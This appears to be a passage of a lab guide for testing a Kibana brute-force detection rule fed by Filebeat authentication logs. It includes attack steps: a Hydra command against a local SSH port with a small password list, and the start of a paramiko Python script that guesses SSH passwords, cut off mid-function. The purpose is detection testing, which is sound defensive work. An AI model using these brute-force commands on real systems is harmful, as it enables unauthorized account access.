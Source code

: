 3. Ensure Filebeat is configured to collect authentication logs from the host system.

4. Configure the Brute Force Attack detection rule in Kibana:
   - Navigate to **Security** > **Detections** > **Manage detection rules**
   - Create a rule with the following settings:
     - Name: `Brute Force Attack Detection`
     - Description: `Detects potential brute force attacks based on failed authentication attempts`
     - Index pattern: `filebeat-*`
     - Query: `tags:authentication_failure`
     - Threshold: Count > 5 grouped by `source.ip` and `user.name` in 5 minutes
     - Schedule: Run every 5 minutes

## 3. Attack Execution Steps

### Method 1: Using Hydra (Automated Tool)

1. Install Hydra if not already available:

```bash
sudo apt-get update
sudo apt-get install -y hydra
```

2. Create a file with potential passwords:

```bash
echo "password123" > passwords.txt
echo "admin123" >> passwords.txt
echo "123456" >> passwords.txt
echo "qwerty" >> passwords.txt
echo "letmein" >> passwords.txt
```

3. Execute the brute force attack:

```bash
hydra -l testuser -P passwords.txt ssh://localhost:2222
```

### Method 2: Using a Custom Python Script

1. Create a Python script for the brute force attack:

```python
#!/usr/bin/env python3
import paramiko
import time
import sys
import random

def ssh_connect(host, port, user, password):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(host, port=port, username=user, password=password, timeout=3)
        print(f"[+] Success! Password found: {password}")
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Authentication failed: {password}")
        return False
    except Exception as e:
        print(f"[!] Error: {str(e)}")
        return False
    finally:
        client.close()

def main():
    if len(sys.argv) != 3:
```